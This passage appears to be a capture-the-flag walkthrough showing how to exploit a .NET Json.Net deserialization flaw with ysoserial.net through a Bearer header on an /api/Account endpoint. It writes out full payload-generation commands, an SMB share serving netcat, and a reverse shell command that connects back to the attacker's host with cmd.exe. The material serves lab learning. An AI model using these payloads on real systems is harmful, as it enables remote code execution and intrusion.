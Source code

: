 ![ysoserialHelp](/assets/{{ imgDir }}/ysoserialHelp.png)

![gadgetsAndFormatters](/assets/{{ imgDir }}/gadgetsAndFormatters.png)

As shown above, one of the entries is the `ObjectDataProvider` gadget which supports the `Json.Net` formatter. We know that we should use the `Json.Net` formatter since it was disclosed in the HTTP reponse earlier. To see if the `ObjectDataProvider` gadget works in our context, we can try to ping our Kali machine from the target host. To generate a payload which can do this, we execute `ysoserial.exe -c "ping -n 10 10.10.14.3" -o base64 -g ObjectDataProvider -f Json.Net`, as shown below. This creates a base64 encoded .NET object which will try to run the command `ping -n 10 10.10.14.3` when deserialized. Note that you should change the IP address in this command to your IP address, to ensure that your machine receives the packets.

![genPing](/assets/{{ imgDir }}/genPing.png)



Next, we start [Wireshark](https://www.wireshark.org/) by executing `wireshark`. Then, we copy the base64 encoded data we obtained from YSoSerial.Net and place it in the `Bearer` header of the request to the `/api/Account` endpoint which we saw earlier. Once we have sent this request, we start receiving packets in Wireshark, as shown below. This means that we have successfully achieved remote code execution on the target!

![wireshark](/assets/{{ imgDir }}/wireshark.png)

{% highlight none linenos %}
kali@kali:/tmp/x$ mkdir myShare
kali@kali:/tmp/x$ cp /usr/share/windows-resources/binaries/nc.exe ./myShare/nc.exe
kali@kali:/tmp/x$ sudo smbserver.py myShare ./myShare
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
{% endhighlight %}

The next step is to get a shell on the target. We start by creating a folder named `myShare` and copying a netcat binary for Windows to this directory. This binary can normally be found in the `/usr/share/windows-resources/binaries/` directory in Kali Linux. Then, we use `smbserver.py` from [impacket](https://github.com/SecureAuthCorp/impacket) to create an SMB share which shares the `myShare` directory. We then proceed to generate a base64 encoded reverse shell payload by executing `ysoserial.exe -c "START /B \\10.10.14.3\myShare\nc.exe 10.10.14.3 443 -e cmd.exe" -o base64 -g ObjectDataProvider -f Json.Net`. When the target deserializes the reverse shell payload, it will execute the command `\\10.10.14.3\myShare\nc.exe 10.10.14.3 443 -e cmd.exe`. This command connects to our SMB share and uses the netcat binary there to connect back to us on port 443 and provide us with a shell on the target.

![shell](/assets/{{ imgDir }}/shell.png)

We start a netcat listener by executing `nc -lvnp 443`. We then send a request to the `/api/Account` endpoint where the `Bearer` header is set to the base64 encoded reverse shell payload we just generated. A couple of seconds after sending the request, the listener receives a connection and we acquire a shell as the `userpool` user on the target!
